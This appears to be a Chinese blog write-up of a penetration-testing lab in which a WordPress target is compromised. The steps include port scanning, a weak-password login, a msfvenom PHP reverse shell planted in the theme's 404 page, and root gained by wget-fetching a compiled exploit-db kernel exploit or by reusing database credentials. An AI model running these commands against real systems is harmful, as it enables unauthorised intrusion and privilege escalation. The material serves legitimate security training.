

51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘web服务找到后台地址，弱口令直接登录后台，修改主题404页面上传反弹shell，执行反弹shell获得低权用户shell，提权有两种方式，一种是查看网站配置文件找到mysql数据库，里面存着密码，可以root，另外一种是searchsploit系统版本，执行本地提权脚本返回root权限，本文两种方式均有展示。

本篇使用工具nmap，dirb，nikto，metasploit。

<!-- more -->

# 使用命令

## metasploit

``` bash
#生成shell
msfvenom -p php/meterpreter/reverse_tcp lhost=攻击机IP lport=攻击机端口 -f raw > shell.php

#开启监听
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 攻击机IP
>set lport 攻击机端口
>run
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个`80`口的web服务，`dirb`挖掘`80`端口web信息，找到后台登录界面：

``` bash
nmap -sV 192.168.1.104
nmap -T4 -A -v 192.168.1.104
dirb http://192.168.1.104 
nikto -host 192.168.1.104 
```


2. 弱口令直接登上去了，修改主题404页面为反弹shell：

``` bash
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.106 lport=4444 -f raw > shell.php && cat shell.php
```


3. metasploit开启监听，访问404页面，得到低权shell，sysinfo查看系统版本：


4. 本地搜索可利用提权漏洞：

``` bash
meterpreter > sysinfo

searchsploit Linux 4.4.0
```



5. 复制并编译提权脚本到apache根目录下，开启apache2服务：

``` bash
cp /usr/share/exploitdb/exploits/linux/local/44298.c /var/www/html/shell.c
gcc /var/www/html/shell.c -o /var/www/html/shell
service apache2 start
```


6. 靶机上wget下来，添加执行权限，执行获得root权限：

``` bash
cd /tmp
wget -O shell http://192.168.1.106/shell
chmod 777 shell
./shell
```


7. 提权shell的上传除了靶机wget也可以在meterpreter里upload：

``` bash
meterpreter > upload /var/www/html/shell
meterpreter > shell

chmod 777 shell
./shell
```


8. 除了系统版本漏洞提权，还可以猜数据库（滑稽），查看`/var/www/html/wordpress/wp-config.php`得到mysql数据库口令和密码：


9. 查看表：

``` bash
mysql -h localhost -u root -p -D wordpress -e 'show tables;':
Enter password: rootpassword!
```


10. 查看`wp_users`表中数据，找到md5加密的密码：

``` bash
mysql -h localhost -u root -p -D wordpress -e 'select * from wp_users':
Enter password: rootpassword!
```


11. 百度解密得到明文`roottoor`，因为靶机没有python模拟不出来`sh/bash`，因此`su`命令不能用，直接攻击机本地ssh连接登录得到root权限：

``` bash
ssh root@192.168.1.104
root@192.168.1.104's password: roottoor
```


# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)